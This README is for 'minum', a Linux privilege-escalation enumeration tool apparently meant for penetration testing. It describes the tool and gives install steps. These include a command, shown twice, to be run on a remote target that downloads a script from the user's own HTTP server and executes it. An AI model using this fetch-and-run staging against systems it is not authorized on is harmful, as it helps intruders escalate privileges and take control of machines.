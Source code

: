 # minum : Minimal Enumeration Tool

This enumeration for privilege escalation tool, unlike many others, is built towards the idea of finding the top most relevant privilege escalation vectors for its user.  
The idea is to prevent throwing a lot of things at the user and let him begin searching for a needle in a haystack.  

Instead, it will ask you for your preferable routes throughout its running and will present to the user only the interesting stuff.
Letting you spend more time on exploiting and less time on reading tons of text all over the place.  
At the end it will also load for you linpeas.sh automatically in case you want an indepth lookout.  

Have fun, and use my tool for good purposes! Educational purposes ONLY !!

P.S

Have some suggestions? Leave an issue and we will be able to look at it and make modifications.

Cheers!

## Install
On your local machine:
```
git clone https://github.com/nirzaaa/minum.git
cd minum
python -m http.server
```
p.s.  
Pay attention to play `linpeas.sh` and `pspy64` in that folder so we will be able to download it for you automatically :)

On the remote machine:
```
wget <my_ip>:<my_port>/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh
```

## Usage

You can download the script to the remote machine and run it for you automatically by using:  
`wget <my_ip>:<my_port>/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`

## Suggestions
Have any suggestions? Something is missing? (:grimacing:) You can leave us an issue and we will look into it :smiley:

## Support us
[![name](link to image on GH)](link to your URL)





[![68747470733a2f2f63646e2e6275796d6561636f666665652e636f6d2f627574746f6e732f64656661756c742d6f72616e67652e706e67]](https://user-images.githubusercontent.com/117816100/206117004-54c33ba1-918e-43d2-96b4-b71018455a1e.png)(https://www.buymeacoffee.com/nirza)




